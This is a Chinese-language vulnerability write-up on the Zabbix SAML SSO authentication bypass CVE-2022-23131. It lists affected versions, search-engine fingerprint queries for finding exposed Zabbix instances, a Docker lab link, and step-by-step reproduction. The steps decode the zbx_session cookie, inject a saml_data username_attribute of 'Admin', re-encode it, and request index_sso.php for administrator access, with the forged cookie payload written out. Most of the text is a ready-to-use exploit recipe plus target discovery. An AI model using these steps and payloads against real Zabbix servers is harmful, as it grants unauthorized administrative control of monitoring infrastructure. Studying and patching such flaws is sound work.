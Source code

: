 # 

# Zabbix SAML身份绕过漏洞 CVE-2022-23131

## 漏洞描述

Zabbix 是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。

Zabbix 由两部分构成，Zabbix Server与可选组件 Zabbix Agent。Zabbix Server 可以通过 SNMP、Zabbix Agent、Ping、端口监视等方法提供对远程服务器/网络状态的监视、数据收集等功能，它可以运行在 Linux、Solaris、HP-UX、AIX、Free BSD、Open BSD、OS X等平台上。

在启用 SAML SSO 身份验证（非默认）的情况下，未经身份验证的攻击者可以通过修改Cookie数据，绕过身份认证获得对 Zabbix 前端的管理员访问权限。

## 漏洞影响

```
Zabbix 4.0.36
Zabbix 5.4.0
Zabbix 5.4.8
Zabbix 6.0.0alpha1
```

## 网络测绘

```
app="ZABBIX-监控系统" && body="saml"
```

### Zoomeye

```
title:"ZABBIX"
```

### Shodan

```
title="ZABBIX"
```

## 环境搭建

环境搭建：

- https://github.com/trganda/dockerenv/tree/master/vuln/zabbix/CVE-2022-23131

登录页面

![image-20220525164121127](images/202205251641192-16855817173634.png)

## 漏洞复现

检测该漏洞的主要步骤为：

- 获取 Set-Cookie 数据 zbx_session 参数的值

- 通过 URL 解码和 Base64 解码获得 zbx_session 参数 json 格式数据

- 通过在 json 中添加 saml_data 和 username_attribute 参数后重新 Base64 编码和 URL 编码构造 Payload

- 在请 HTTP 求头中添加构造的 Payload，然后请求 index_sso.php

- 若 HTTP 响应头中包含 Location 头，说明存在漏洞，可直接进入管理界面

获取 Set-Cookie 数据，通过 URL 解码和 Base64 解码，得到如下数据：

```
{"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

构造如下 Payload：

```
{"saml_data":{"username_attribute":"Admin"},"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

在 Burpsuite 中将通过 Base64 编码和 URL 编码后的 zbx_session 参数带入请求 index_sso.php，成功登录。

也可以在浏览器中替换Cookie，点击 SAML登录。

![image-20220525165011891](./images/202205251650948.png)


